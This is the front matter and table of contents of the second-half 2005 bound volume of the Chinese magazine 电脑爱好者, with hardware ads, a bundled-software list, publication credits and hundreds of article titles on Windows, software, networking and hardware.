# 电脑爱好者2005合订本（下）正文分册

《江民杀毒软件2006》
《金山词霸2006》
《熊猫卫士钛金版》
新东方听课卡

总价值 ¥299

## 电脑报

电脑学习的百科全书

## 合订本

- 千篇文章海量秘籍
- 三套目录快速检索
- 半年杂志精华汇聚
- 电脑学用百科全书

## 全功能明星

HP PHOTOSMART 3308 彩色全功能一体机

￥3999

照片打印 立体复印 底片扫描 彩色传真

- 打印：
  - SPT技术，打印6寸照片只需14秒
  - 3.6寸中文彩色液晶屏直接预览和打印照片
  - 支持网络打印
- 复印：
  - 彩色立体实物复印
  - 照片无边距复印及放大或缩印
  - 老照片翻新及证件照复印
- 传真：
  - 来电显示及传真过滤功能
  - 传真群发及传真转发
  - 无纸发送传真
- 扫描：
  - 4800*4800dpi高分辨率扫描
  - CCD立体扫描
  - 底片扫描/幻灯片扫描

HP PHOTOSMART 3308 彩色全功能一体机

HP彩色多功能一体机，另有更多机型可供选择。功能详情请参见店内宣传页或登录网站查询。

HP PHOTOSMART 3108 彩色全功能一体机
￥2999
平板式/照片打印/立体复印/传真/CCD扫描/中文彩屏/读卡器/PictBridge/U盘打印

HP PHOTOSMART 2578 彩色照片一体机
￥1999
平板式/照片打印/复印/扫描/中文彩屏/读卡器/PictBridge/网络/U盘打印

HP PSC 1408 彩色打印复印一体机
￥799
平板式/打印/复印/扫描









致电 800-820-2255
未开通地区请拨打 021-50504800
工作时间：周一至周五08:30-18:00
登录 www.hp.com.cn/lho



## 合订本2005（下半月）

## 电脑爱好者

## 本期·正文分册

## 你的游戏新武器

- 6500帧/秒的图片采样率，快速移动决不丢帧
- 15G惊人的加速度
- 欧姆龙耐压开关，可承受500万次以上的按压寿命
- 800CPI的高分辨率，定位更准确，使用得心应手
- 高分子耐脚垫，是普通脚垫的10倍
- 每秒处理5.8百万像素图像，轻松享受流畅快感



深圳市多彩实业有限公司
www.deluxworld.com

电脑爱好者杂志社

图片仅供参考，产品以实物为准

### 内容提要

《电脑爱好者合订本》2005年（下半年）正文分册收录了2005年12期~23期杂志的全部内容，对正文的全部内容进行了二次编校、合理整改、系统分类及科学编排，是一本全面实用的电脑应用类工具资料书。全书涵盖了业界新闻、专题、操作系统、实用软件与实用技巧、办公与文字处理、编程、网络技术与应用、硬件、傻博士信箱、密技E卡通、新软物语等十几类内容，共1800余篇精品文章，是一本名副其实的电脑学用类百科全书。本书特别提供了三套检索目录，让读者可以根据特定的需求，从应用类别、文章关键词和软件名称三个方面入手，快速准确地找到自己需要的文章。

本书配套2张光盘。
配套光盘A配有功能强大的2005年《电脑爱好者》全文检索系统，可以按期数、栏目、标题、关键词等多种方法进行检索。光盘A中的电子书库，收录5本本社出版图书的电子版供读者阅读。另外还有硬件资料超级手册完整电子版。
配套光盘B收录有KV2006、KV2006（64位版）《电脑爱好者》OEM版，通过本书附带的注册卡，即可获得价值80元的一年期防病毒服务。
配套光盘B收录有金山词霸2006电脑爱好者OEM版，通过本书附带的注册卡，即可获得正版的金山词霸2006。
配套光盘B收录有熊猫卫士钛金版2005（注册版），通过本书附带的注册卡，即可获熊猫卫士一年期防病毒服务。
配套光盘B还收录有多种软件，以及《电脑爱好者》四季光盘（秋）精选、《电脑爱好者》四季光盘（夏）精选。价值丰富，不能错过。

### 《电脑爱好者合订本》2005年(下)·正文分册

| 项目 | 信息 |
| :--- | :--- |
| 社长 | 孙晓旭 |
| 总编辑 | 高翔 |
| 常务副社长 | 赵健 |
| 编辑策划 | 封立鹏（主编）<br>董宏（副主编） 王寒晖 马涛 |
| 编辑出版 | 北京《电脑爱好者》杂志社 |
| 制作 | 格格 |
| 责任编辑 | 马涛 |
| 发行 | 北京《电脑爱好者》杂志社推广发行中心（100089） |
| 发行电话 | (010) 88400365 88400368 |
| 技术支持 | (010) 88400570 - 8028/8049 |
| 网址 | http://www.cfan.com.cn |
| 经销 | 各地报刊亭及新华书店 |
| 开本 | 787 × 1092 1/16 |
| 印张 | 28 |
| 字数 | 2,000千字 |
| 刊号 | ISSN 1005-0043/CN11-3248/TP |
| 国内邮发代号 | 82-528 |

本书如有印刷质量问题（错页、掉页、残页等），我们将负责调换。
联系电话：(010) 88400365 E-mail:cxxing@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本(正文分册、附录分册、配套硬件手册、配套2CD)定价：38元

### 目录 CONTENTS

- ## 业界
  - 17 抢注.cn域名 就能一夜暴富?
  - 18 AMD 笔记本来袭 福兮? 祸兮?
  - 18 过滤笔记本电脑的低价混水
  - 19 警惕手机抢钱
  - 20 联想之“芯” 护航奥运
  - 20 英雄大会道“计算机取证”三大顽症
  - 22 连续供墨真能降低90%的打印成本?
  - 22 小灵通地下烧号暗藏几多陷阱
  - 23 数字出版 圆你一个出书梦
  - 24 网上录取 以安全的名义
  - 25 买MP3 慎防李鬼拦路
  - 26 信息时代 谁主沉浮
    —— 互联网中枢神经根服务器控制权之争
  - 27 博客网: 穿了马甲我还认识你
  - 28 国货当自强, “抗日”重任担肩上
    —— 爱国者吹响向日系数码相机的开战号角
  - 28 “手机钱包”引发支付革命
  - 29 QQ升级变“活跃天”不是关键
  - 30 以旧换新 确有其事
  - 30 数字水印方兴未艾 市场推广期待良策
  - 31 别了, 李开复
  - 32 面向未来 关注Java 十年
  - 33 苹果出怪招 音乐手机成鸡肋?
  - 34 500多元买正版 COEM版Windows 你了解多少?
  - 34 短信网址, 带你去逛架在短信上的商铺
  - 36 要“双核”还是要“双芯”?
  - 36 追忆京城不眠夜——CLPA LANParty 2005 盛会侧记
  - 38 用“心”打造快乐行“板”
  - 38 十年变革 “X.1 + 1”音箱能否崛起PC多媒体、
  - 39 “蒲公英”在爱心下成长
  - 40 新浪怎么“爱问” 百度“知道”什么
  - 41 短信防骗: 不要和陌生人说话
  - 41 65纳米魅力何在 引无数英雄竞折腰

- ## 专题
  - 42 网管日记之无线超完全攻略
    - 玩无线必懂之知
    - 买无线产品前你一定要知道
    - 实战无线局域网
    - 有无线自由, 也要无线安全
    - 更多无线快乐体验
    - 有问题请问专家
  - 45 打破窗户的企鹅
    - 用了一辈子Windows, 该换换口味了
    - 学习Linux, 从认识小企鹅开始
    - 实战Linux安装, 让小企鹅在你的PC上安家

- ## 右侧列表
  - 49 实际操作Linux, 体验小企鹅的魅力
    - 融合现实与理想的桌面时代
    - 系统运算单元的革命
    - 存储设备: 多姿多彩的存储“空间”
    - 显示器: 大屏幕, 靓丽的大屏幕LCD!
    - 机箱电源: 让我们都更凉快些
    - 笔记本: 你离我越来越近了
    - 无线生活从今天开始
    - 数码外设: 全民数码化
    - 外设: 更精、更细、更强
  - 53 10步之内学会ASP
    - 成功了解服务器环境配置
    - 成功掌握基本的交互操作
    - 成功学会数据库的访问和读取
    - 成功学会数据的添加和删除
    - 成功学会数据搜索
    - 成功学会数据的修改
    - 成功学习会话
    - 附篇: Dreamweaver 来帮忙, 不会写代码也能编程序
  - 57 博客的进化论——从博客到维基、播客
    - 博客——博天下之大, 皆出我手
    - 从头至尾完整搭建自己的博客网站
    - 维基——把你我所知的分享给全世界
    - 播客——看得见听得到的自由表达
  - 61 听他们讲开店的故事
    - 开网店前的心理准备
    - 迈出你成为网店店长的第一步
    - 教你轻松找货源
    - 一张好图让你的宝贝脱颖而出
    - 打造网店的金字招牌
    - 商品递送有讲究
    - 宣传网店七招足够

- ## 本合订本大礼包清单
  - KV2006 电脑爱好者 OEM 版
  - KV2006 64位版 电脑爱好者 OEM 版
    - 注册码放置在正文分册的光盘袋中。
  - 金山词霸 2006 电脑爱好者 OEM 版
    - 注册帐号粘贴在正文分册的光盘袋上。
  - 熊猫卫士钛金版 2005 注册版
    - 注册帐号粘贴在本书的光盘袋上。
  - 新东方在线听课50元帐号
    - 帐号印在附录目录第8页, 新用户需先在新东方在线注册, 然后注入帐号, 即可前去听课。

## 操作系统与应用

### (一)Windows 原理知识

- 91 XP Home 轻松变 Pro 立即节约 100 美元
- 64 18岁 中国互联网长大了
- 1亿网民 中国互联网的成人礼
- 追忆拓荒岁月
- 钱天白和第一封电子邮件
- 燃情年代
- 艰难的互联网寒冬
- 后话语时代的快感
- 不必视网络语言为洪水猛兽
- 网娱双娇之唱网天下
- 网娱双娇之影雄传说
- 一个北漂一族的热闹生活
- 新技术与新应用
- 69 升级在秋天
- 核心篇
- 基础平台篇
- 显示卡
- 内存篇
- 硬盘篇
- 73 疯狂的 Word 魔术
  ——完美实例瞬间掌握 VBA 的神奇魔力
- 神奇魔棒: VBA 初体验
- Word 也能“逗你玩儿”
- 非正常 Word 研究中心
- 成就魔术大师的时刻
- 76 游走在边缘的免费午餐
- “边缘”其实就是一种尴尬
- 免费以及自由，言论网络化解放的基石
- Blog，我的地盘！
- 汉化是一种使命
- 银色幕布下的灰色边缘
- QQ 动画表情的全民 DIY
- 尾声·仍在边缘
- 80 硬件领域二十大经典尴尬
- CPU 经典尴尬
- 板卡经典尴尬
- 显示器经典尴尬
- 存储世界经典尴尬
- 音箱经典尴尬
- 鼠标与键盘经典尴尬
- 笔记本电脑经典尴尬
- 打印机经典尴尬
- 数码相机经典尴尬
- 整机经典尴尬
- 尴尬启示录
- 83 这个圣诞夜 谁在为你歌唱
  ——最浪漫圣诞礼物完美 DIY 方案
- 一首好歌代表我的心
- “喧宾夺主”去原声
- 想唱就唱 超级我声
- 精雕细琢 歌声更完美
- 如影随形 手机铃声变歌声
- 声色兼具 Music Video 也 DIY
- 雕刻时光 永不磨灭
- 五光十色 精美礼品再包装
- 歌声伴我行 随时随地随身听

### (二)Windows 技巧应用

- 92 DOS 快餐店(八):名侦探破案实录
- 93 给账户起个“小名”——影子账户全面解析
- 94 DOS 快餐店(九):快餐店的“魔鬼命令测试”(上)
- 95 DOS 快餐店(十):快餐店的“魔鬼命令测试”(下)
- 101 DOS 快餐店(十一):终极 DOS 技能——循环
- 105 亦真亦假的 Svchost.exe
- 111 挑战 Windows 搜索速度极限
- 112 动态链接库 Windows 的活动大陆
- 126 系统目录中的“百慕大三角”
- 133 补丁也玩分级制，GDR 与 QEF 区别大公开
- 136 Vista 正式版未出先遭盗版——瞬间 XP 变 Vista
- 136 双击背后的秘密——文件关联
- 140 Windows XP 的 10 门“必修课”
- 90 电脑，让我放心地离开你
- 95 去除共享软件附带的“寄生虫”
- 96 朋友有难 “远程桌面” 替你跑腿
- 97 告别“烂尾工程”——多下载工具续传技术
- 98 还我启动自由仅需 1KB
- 99 DOS 命令+ Excel = 批量文件重命名
- 99 博客变黑客？还我系统清白
- 102 五分钟成为漫画家
- 104 不装软件，也玩专业录音
- 106 小编们的“聪明”电脑
- 107 让 Windows 进入游戏模式
- 109 修改系统用户名的误区
- 114 QQ 分组排序,其实很简单
- 116 有勇有谋，智斗组策略三大“顽疾”
- 120 多种武器助你驯服小企鹅
- 122 远离等待，把 DOC 都变成 TXT
- 124 让 IE 免费变身 Firefox
- 125 30 元包月无线上网 补遗篇
- 128 单挑还是群殴？与 TC 过招
- 129 我去重庆看美女——网络帮你熟悉新环境
- 130 拒绝重复劳动！把设置打包带走
- 131 小块头也敢有大智慧！96KB 的高速 BT 客户端
- 131 想上就上 网管你哭吧！
- 133 别闲着 GB 邮箱给我变网络硬盘
- 135 Zoundary Blog Writer 让你离线写博客
- 138 远离发图限制，图片极速“瘦身”

### (三)系统、程序、菜单个性化打造

- 89 臃肿时代！我们倡导右键菜单瘦身主义
- 92 N 台电脑，一键全关闭
- 99 安装多系统，我偏不先来后到
- 100 畅行无阻，给程序一张无敌通行证
- 104 懒人的技巧，躺着也能玩电脑
- 104 把 USB 设备揪出来
- 120 我不信邪！没有服务 Windows 照样能运行
  ——史上最强优化，打造无服务版 Windows
- 123 自制 Windows 超级 SP 包，从此告别缝缝补补
- 132 超级右键工具让目录尽情跳！
- 132 给系统壮胆，从此不登录也敢下载

### (四)Windows 注册表

- 108 从零讲起 彻底走出注册表迷雾
- 117 我有“特权”我怕谁
  ——巧用服务添加管理员账户

### (五)Windows 系统故障排除

- 94 找回被破坏的隐藏分区
- 98 移动硬盘消化不良? 我来摆平它
- 104 打狗先看主人  删除设备名木马
- 118 我无辜  我们同是受害者
- 124 “带命令行的安全模式” 抢救崩溃系统
- 125 秀出系统的挡箭牌—— “运行身份” 技术
- 132 疑似冲击波再袭！幕后凶手到底是谁？

### (六)Windows 系统、程序优化

- 88 捍卫系统和平打败吃掉硬盘空间的怪物
- 90 附件的自由战争
- 96 禁地的战役
- 102 权限之剑再度出击，彻底斩断邪恶黑手
- 103 见名知义，让文本文件一目了然
- 107 Windows 防火墙安全鉴定书
- 110 擦亮你的月光宝盒—玩转系统还原高级设置
- 112 多重系统，你听谁的
- 114 名副其实的Rundll32.exe
- 115 软件超级模仿秀！系统潜能大挖掘
- 116 没有硬的来软的  免费升级超线程
- 118 NTLDR，揭开Windows XP 启动的秘密
- 119 三种方法，让程序拥有“特工”身份
- 119 惊艳！XP 原来可以如此美丽
- 121 conime.exe 洗冤录
- 123 管好你的“任务管理器”
- 123 一个DLL 让密码形同虚设
- 128 安全和便捷两不误，无形的权限之锁
- 129 小心剪贴板出卖你的隐私
- 134 系统中的“奇怪”文件
- 135 我比你更无赖！巧治捆绑软件
- 138 资源管理器里开“天窗”
- 139 快马也得加鞭！BitComet 终极优化
- 139 冲破枷锁！解放被组策略锁死的系统

# 实用软件与实用技巧

### (一)文件管理、压缩、备份及加密

- 152 压缩文档大不同，能唱歌来会跳舞
- 170 作个007  文件藏进照片里
- 230 让文件更小一点
  ——WinRAR 固实压缩文件深层探秘

### (二)系统维护辅助软件

- 143 妙用TaskList  系统安全巧检测
- 151 系统无法启动！如何抢救硬盘数据
- 153 体验智能ABC 的特殊符号输入
- 190 系统轻松大减负，完美卸载好伴侣
- 195 免费全能助手，Windows 优化不愁
- 196 将Windows 装进你的闪存盘
- 197 彻底玩转微软虚拟机Virtual PC
- 211 开启电脑之门的钥匙——微软拼音输入法
- 234 用数据库技术打造个人任务管理器(1)
- 236 菜鸟瞬间变“Windows 优化大师”
- 243 系统安装仅仅是个开始……
- 248 用数据库技术打造个人任务管理器(2)
- 255 千变万化的剪贴画
- 257 建就建出“花”来
- 257 找回被遗忘的脚本编辑器
- 261 偷窥下一代的Windows“画笔”
- 267 谍影重重3 之摄像头监控

### (三)图形图像处理软件

- 145 Photoshop 网络大补贴
- 146 桌面“数码相机”SnagIt
- 149 飞扬的韵律——用Photoshop 制作打散效果图
- 156 实例尝鲜  品味Photoshop CS2新工具
- 159 图片时代  另类方法Show 出你的照片
- 160 免费“贴纸照”  今天就来拍
- 166 彩蝶翩翩入梦来
- 167 DC 联手ACDSee  数码相片管理更轻松
- 171 Ashampoo Photo Commander 彻底让ACDSee 下岗!
- 175 Photoshop CS2 扭曲工具实战
- 187 光影魔术手  菜鸟的Photoshop
- 204 个性大头贴  看我美丽七十二变
- 204 超酷Flash 相册Photoshop CS2 造
- 204 巧用“粘贴入”，制作嵌图美术字
- 209 变了“味”的ACDSee 8.0
- 213 插画大师Illustrator
- 215 丢掉Photoshop，SnagIt 也玩数码特效
- 228 信手涂鸦，画出心中的童话世界
- 228 “卡通”你自己
- 235 风色幻想TV 秀——ParticleIllusion.特效尝试
- 239 人人能做封面设计师
- 240 超级“磨皮”大法，三分钟旧貌换新颜
- 245 有了Picasa，图片管理超轻松
- 252 制作陈旧壁画  触摸历史印迹
- 258 爱你在心口难开  JPG 帮你解难题
  ——制作会唱歌和藏情书的JPG 文件

### (四)动画与多媒体制作

- 142 多快好省  轻松打造KVCD
- 145 Flash 网络大补贴
- 149 闪闪烁烁满天星——经典Flash 光标跟随效果
- 154 Flash 编程不难  轻松让节日烟花放起来
- 164 四步！悠悠绿水荡漾起来
- 165 Director ——《电脑爱好者》四季光盘大揭秘
- 169 Flash MX 裁图有妙招
- 184 超酷自动播放光盘DIY
- 191 胜似闲庭信步，轻松圆你作曲梦
  ——Cakewalk SONAR 4.0 实战
- 192 酷！电子杂志是这样炼成的……
- 194 搭建自己的虚拟演播室
- 208 再战极限！大容量DVD 影碟完全制作手册
- 213 一石激起千层浪——Flash 水波效果实战
- 232 菜鸟轻松、快速制作MV
- 253 简单几步炫亮你的网上家园
- 263 三步制作超酷Flash 导航菜单

### (五)音频与视频处理

- 142 无CUE 文件也能轻松转换APE 文件## (六)即时通讯软件

- 零成本搭建网络视频点播系统
- Cool Edit Pro给网络歌手热热身
- MyMPC，刮起影音播放的风暴
- 善用透明通道 DIY 超个性电影
- Vegas 6.0 老百姓家的“大导演”
- 再见“音”雄！Cool Edit Pro 实例集锦
- 聆听天籁之音，我用千千静听
- Nero 7，刮起家庭娱乐大风暴
- 全自动播放MP3 光盘就这么简单
- 让所有邮箱都能即时“通信”
- MM 的世界 让沟通无极限
- QQ2005 Beta3让你全屏视频、安全聊天
- 我在做什么，你知道吗？——为MSN Messenger添加监视功能
- QQMail不用QQ收
- 姗姗来迟的“花蝴蝶”会领舞中国吗？
- 当QQ被“盗”之后……
- MSN Spaces超级变变变
- 终于有了群功能！MSN 8.0就要来啦！
- 改动文件格式 妙用QQ 聊天窗口

### (七)系统安全与病毒查杀

- 警报！新CIH病毒来了
- 小心你的QQ Mail出卖你
- 卡卡 Windows 的安全小帮手
- 一波三折杀木马
- 深入了解网页中的“马”
- 手工修复Windows XP 的防火墙
- 反垃圾邮件的常用武器是什么
- System Repair Engineer 系统修复的瑞士军刀
- 防火墙的大门你到底为谁开？
- “入侵检测” 防火墙的“好兄弟”
- PC-cillin 2005请间谍软件“滚”开
- 瑞星杀毒软件2005的漏洞攻击监控
- 保住杀毒的最后圣地——制作杀毒软件的DOS版
- 三招搞定Zotob蠕虫
- “天网”恢恢 疏而不漏
- 小心！你的闪盘被监视了
- 黑客如何盗取你的密码
- 给瑞星添加移动存储自动杀毒功能
- 巧用江民KV2006过滤恶意网址
- 杀毒软件你也可以DIY
- “溢出攻击”攻防录
- 开源免费的杀毒软件ClamWin
- 手工解决由实名软件造成的系统崩溃问题
- 让诺顿天天升级
- 嗅探软件也能“消毒”

### (八)其他实用软件

- 我有我主张 我做我的RPG 游戏
- 网络看护还是“妈妈”好
- 破解StarForce3 不拔光驱也能玩加密游戏
- 你了解的Acrobat 有多少？让我们重新体验！
- 批量打印我用LabelShopLE
- 今天，你BT了吗？
- 批量刻录也省心
- 今天我出“书”了
- 为所有游戏添加窗口模式
- 由“魔镜还原”创作探讨软件界面设计
- RPG Maker XP 游戏制作高手进补篇
- “鼠青天”真的是青天吗？
- 以BT 的名义看电视——主流P2P 网络电视使用手记
- 让DC 模拟器在低配置电脑上飞起来
- 让“播放”不再自动
- 边看边录，还能放的网络电视
- 如何刻录？听SizeMe
- 与BT并驾齐驱 看电骡(eMule)再战江湖
- Foxmail三大超新鲜、超实用密技
- 链接预览专家AddPreview
- 在QQ2005正式版中使用中文密码
- 插上翅膀的Acrobat
- 一流的“导演”之路—Vegas 影视特效实录
- 彰显个性，从“名”做起
- “你来我往”话FTP 服务模式

### (九)实用技巧

- 你的密码安全吗？
- 打游戏机我要“液晶电视”
- 巧用虚拟摄像头 视频聊天也要有特效
- 揭秘改造新招数 我的闪存盘大不同
- “宋”别！让英文软件不再仅支持“宋体”
- 巧取豪夺 网站电子书
- 有我网络在，你们软件下岗吧！
- 当“聪明”手机遇到“聪明”电脑……
- 另类超刻 强突700MB 限制
- 快速修复注册表
- TM2005办公族必备 MSN的COSPLAYER
- 千里网络一线“签”——妙用“美味书签”
- 小心！老板来了！——软件中的“老板键”
- 给QQ硬盘加把“锁”
- 用好“潜望镜”，文档内容早知道
- 谁说自造软件难？——轻松打造个性工具栏
- 揭秘！BT 电影来源完全揭秘——快速将DVD 转成RMVB 格式
- 突破万难 无所不“下”
- 办公室里的“打印故事”
- 能上QQ 但不能上网问题解析
- 给朋友发一封“魔法信”
- 巧用微型书签，打造超强网页浏览器
- 没有FTP 一样可以玩网络共享——网络上的共享存储盘
- 抢修Google牌“照相机”
- 跟购物狂学开网上小店

### (十)办公与文字处理

- 处乱不惊慌 遇险Office文档轻松恢复
- 5 分钟学会贴便签
- 八戒娶亲是赔是赚，Excel里一目了然
- Word里面下象棋
- 一眼挑出老板的邮件
- 轻松调整单元格内文字的行距
- Word也玩稿纸打印
- 一年中必须记住的MM的节日
- 乾坤大挪移 海量数据里面找不同
- 别人的修改看得明明白白
- Publisher ——办公室里的排版高手
- Excel里轻轻松松背单词
- 网页文章入住Word的几道坎
- Office中巧设图片透明度
- Office错误代码轻松查
- 拖拖拽拽学Visio 打造美丽新生活
- 如何成为“万事通”
- 现学现用，打造不固定节目查询系统
- 轻松制做电影剧本
- 超级女声各展风采，Excel铁面无情
- 以一当十，邮件合并建奇功
- 好为人师解疑惑 循循善诱说数组
- 关于《极限瘦身Office 2003安装包》一文的补充
- PowerPoint字体守护战
- 火眼金睛，巧捉Excel公式里的“虫子”
- Word微调有妙招
- Office办公中妙用Shift键
- InfoPath 信息的快行道
- 同一Word文档，页面纵横混排
- 锦上添花！图片、文档也玩邮件合并
- 预言家是怎样炼成的
- 生活乱如麻 精打细算好当家
- 赤手空拳 为数码照片打造“全能管家”
- Word“改装”Blog发布机
- 以不变应万变，自定义函数出奇招
- 她是属龙还是属兔？——知年龄猜属相
- 和BT时无法打开网页故障说“拜拜”
- “迅雷”不及掩耳，看我极速下载
- 数字格式自定义 Excel更好用
- Word表格批量变Excel电子表
- 输入身份证号其实不用太复杂

### (十一)编程

- MP3歌词显示探密
- 编写语音程序 让电脑“听”从你的命令
- 自制智能软件机器人
- 用VB制作验证码生成器
- 用C语言编写三维魔方游戏
- 用C#打造华丽的窗体控件
- 用VB编写极限飞行小游戏
- 用Delphi编写拔图钉游戏
- 我和电脑玩猜拳

### 密技E卡通

- 掌控你的“控制面板”
- 有容好用才乃大——大硬盘升级应用技巧
- MSN Messenger 7.0真好玩！
- 6招玩转RealPlayer
- 清理硬盘上的“钉子户”
- 千千静听 靓听倩倩
- 扫出精彩世界一扫描仪应用技巧实例
- “邮”来“邮”去——转Outlook Express
- 让BIOS更勤快些——主板功能实现技巧面面观
- 越多越好，玩转多系统
- “抓”出的精彩
- ADSL经典技巧一箩筐
- 另类而实用，跟我玩转驱动
- 数码相机“野战”必备武器
- 刻得与众不同
- 原来USB还可以这样玩
- 有故障，找“故障恢复控制台”
- 玩转“邮件规则” OE更聪明
- 6招玩转移动硬盘
- 做个出色的演讲师
- Google搜索技巧2005
- 向纪录冲刺——压缩XP启动时间
- 笔记本也要玩得有技巧
- 安全关机，免吃后悔药
- 让Windows XP SP2屏蔽长点记性
- 删除“打印机和传真”
- 终止顽固的matlab进程
- 更方便地撤销快捷键
- 开启Athlon 64的CnQ节电功能
- 主板红外口快速安装与设置
- 液晶显示器需要你特别呵护
- 快速诊治显卡花屏
- 权限也能完美克隆
- 右键获得程序帮助
- 一条命令彻底修复IE
- 修改被损坏的Word
- 让Excel单元格自动调整字号
- CMOS故障处理办法
- nForce2主板上USB2.0的使用技巧
- 零磁道损坏硬盘的修理
- 解决VGA插头上的隐患
- 别害了我的移动硬盘
- 禁止使用“我的电脑一属性”
- ACT文件巧转MP3文件
- 直接复制好听的歌曲到MP3中
- Excel中表头巧锁定
- 批量设置“隐身时对好友可见”
- 让MSN也能随意抓图
- UC变身录音机
- 谁从MSN Messenger中删除了你
- 你遭受了短信陷阱么？
- 大屏幕CRT体验宽屏游戏特色
- 重启服务搞定打印机无响应问题
- 巧用DOS命令让WinRAR关联更多格式
- “命令提示符”自动完成文件名输入
- 随时了解MSN服务器状态
- 在KUGOO中快速搜索整张专辑
- 在Word表格中求平均值
- 会损坏电脑的坏习惯
- 搞定收件夹的“2GB限制”
- 让OE与Outlook共享地址簿
- WAV 转 MP3? 录音机就可以
- 让 Windows 时钟告诉我星期几
- 为右键菜单添加“查找目标”
- 巧妙复制金山词霸中的日文
- 为“网文快捕”自定义右键菜单
- 不用原装墨盒，防止用兼容墨水时堵头
- 定期关闭电源，确保 ADSL 猫稳定工作
- 高 ISO 值拍照时最大限度抑制噪点
- 增强 IE 地址栏搜索功能
- 让 MSN Messenger 好友昵称瞬间变大
- 申请 @msn.com 后缀的邮箱
- XP 也能自动登录
- 快速管理你的密码
- 利用剪贴画寻找免费图片
- 将邮件制作为电子书
- MP3 坏了先别送去维修
- 笔记本电池不用拔
- 查看自己的 IP 地址
- 让 QQ 通讯录与 Foxmail 联姻
- 免费域名 Logo 生成器
- 一键修改文件夹权限
- 巧妙删除“长路径”文件夹
- 巧用 RealPlayer 帮你整理 MP3 歌曲
- 让 Excel 自动切换输入法
- DC 清洁小窍门
- 笔记本刻录 注意节能状态
- 更快捷的陌生人聊天方式
- 把 BitComet 的内存占用快速降到 4MB
- “注册表编辑器”也玩双开
- 让开始菜单不显示其他用户安装的程序
- 拒绝运行“桌面清理向导”
- NTFS 转 FAT32 的另类方法
- 巧打索引图
- 用千千静听听广播
- 提高打印机的打印速度和质量
- 维护 UPS 要注意
- 打开主板的 ATA133
- 增强电视卡的接收效果
- 傲游(Maxthon)中快速找到需要的页面
- 删除被 PUB 的目录
- 改驱动属性加速 XP 启动
- 巧妙抓取防滚屏网页
- DIY “视保屏”
- 彻底终止鼠标关机后仍然发光
- 灵犀一指“指点杆”使用技巧
- 提高照片打印分辨率
- 备份 OE 的邮件规则
- 登记 QQ 群实名如此简单
- 解决 256 色的困扰
- 快速查看用户组
- 快速和 QQ 任意好友聊天
- 别让防火墙挡了内网互联的路
- 是否隐身巧判断
- 找回消失的移动硬盘盘符
- 直接热拔移动硬盘
- 另类方法为因特网浏览提速
- 让 Windows XP 的搜索得更全面
- 为 Windows XP 的搜索提速
- 修改 Windows XP 的序列号
- 把任务栏锁得更牢
- 在 Word 中批量将文字替换成图片
- 彻底清除“流氓软件”
- 一招让摄像头变成数码摄像机
- 巧用鼠标滚轮 实现特殊功能
- 快速修改输错的网址
- 给桌面开个“收藏夹”窗口
- 没有输入法也可输入汉字
- 霸占无主文件夹的管理权
- 重装“系统还原”
- 给 Word 文档设置不同的页眉页脚
- 去除 8XXG 系统主板驱动添加的右键菜单
- 做键盘挑错高手
- 电池不好用，放电来解决
- 降显存容量提速
- 浏览 PDF，不用 IE 自作主张
- IE 地址栏巧变计算器
- 快速使用镜像文件
- 有效减少光驱损耗

# 网络技术与应用

### (一)网络通讯

- 认识你真好——QQ 泡 MM 的奇招妙招
- 亲亲我的 Q 宠宝贝
- 我的 MSN Space 就是比你酷
- QQ 2005 Beta2 沸腾出炉啦！
- 网络时代 我用视频追杀丘比特
- 给 MSN Messenger 7 的联系人做美容
- 将免费进行到底——免费短信排排座
- 妙取 QQ 好友的 IP 信息
- MSN 闪屏振动无限“连发”
- 告别“通讯基本靠吼”的时代——集线器、交换机、路由器的对话
- MSN Messenger 也能隐身聊天啦
- 键行天下——QQ 中的隐秘快捷键

### (二)上网技巧

- 长脚的 Google 爬上了电脑桌
- Excel: 我也是抓站大师！
- 30 元！包月无线上网
- 小心呀！“流氓”进村了——广告软件的六大潜入方式
- 碟中谍 3！网络上演不可能的任务
- 用插件—搜索再省一步
- 碟中谍 3 之 007 重出江湖
- 寻觅知音 分享我的音乐心情
- 在搜索中“捕风捉影”——Google 快照强行突破
- 文件装甲运输车—玩转新时代 FTP
- 微缩版“画中画” 桌上就能看！
- IE “窃取” 多页面浏览器的收藏夹
- 我的 IE 一直很安静

### （四）Internet 资源

- 免费刻章，要不要？
- 把失去的缘份拽回来
- “大块头” 要有“大智慧” ——玩转网络硬盘和大容量邮箱
- 死记硬背不行的 我用Blog学英文！
- 书法家、设计师统统请到家！
- Tor 网络的“独行忍者”
- 免费口语外教请回家
- 敲打岩石的记忆
- 大自然的召唤
- 探索，梦想开始的地方
- “UPnP” 让全世界轻松牵手
- 走进迪斯尼动画王国
- 以假乱真！模型的艺术
- 我们的大学生活
- 科学才是硬道理
- 转动神奇的魔方
- 方言，不仅仅是地方话
- 今天，我们只谈改装
- 走，上网打扑克去

### （五）网站建设与网页制作

- 1 分钟！快速搭建BT 发布站点
- 1 分钟建个“迷你小窝”
- 架个《电脑爱好者》论坛其实很容易
- 架设自己的战队语音服务器

# 硬件采购、维护与应用

### （一）硬件优化、改造与故障排除

- 网卡故障点点通——6 种最常见的故障
- 跟我来，DIY 高达摄像头！
- CPU 超频技法大放送
- 漫漫静音不归路
- 硬盘“失踪”，谁之过？
- 浅谈风扇对计算机的整体散热的影响
- 该休息了，我的鼠标键盘！
- 解决部分nForce2 主板不能上网问题
- 工作卡这种专业东东也能DIY！
- 软硬兼施，让喷头不再堵塞
- UWB 让无线应用插上超宽带的翅膀
- 打破Intel Pentium4倍频限制的最新超频选择
- 光盘应该如何保护？
- 慧眼识英雄——提高OCR识别率
- 安全无极限：办公电脑防卫“三重门”
- 3D-Analyze ——给Geforce FX找点面子
- K8 闪龙超频完全指导手册
- 谈谈喷墨打印机的合理使用
- 让硬盘静音运行无需如此麻烦
- 释放打印机驱动程序的潜能
- 做个能遥控的电脑

### （二）硬件基础知识

- 硬派讲堂之玩转硬盘
- 从AGP 到PCIE，显卡接口大变化
- 谋定而动——了解LCD 的四要点
- 从钉锤到威尼斯，AMD 兄弟细分辨
- 数据的金刚罩——硬盘安全技术全接触
- AMD64 位处理器的避暑山庄
- 回眸一顾 英特尔赛扬处理器家族七年
- 硬盘是完全封闭的吗？
- 稀饭魔语大辞典
- 随身的数据仓库——OTG 技术全接触
- DDR2 能为镭9550再续辉煌
- 让主板更聪明 AI Life 技术初探
- 硬盘内部世界漫游记
- 未来趋势，闪存取代硬盘
- 平台化：家庭多媒体娱乐未来趋势
- 漫游主板世界
- 一统天下！SATA2.5技术前瞻
- AMD vs Intel双核心CPU技术
- 蓝光向左HD DVD 向右你走哪边

### （三）显示器与视频设备

- PCI Express 显卡=吃电怪兽？
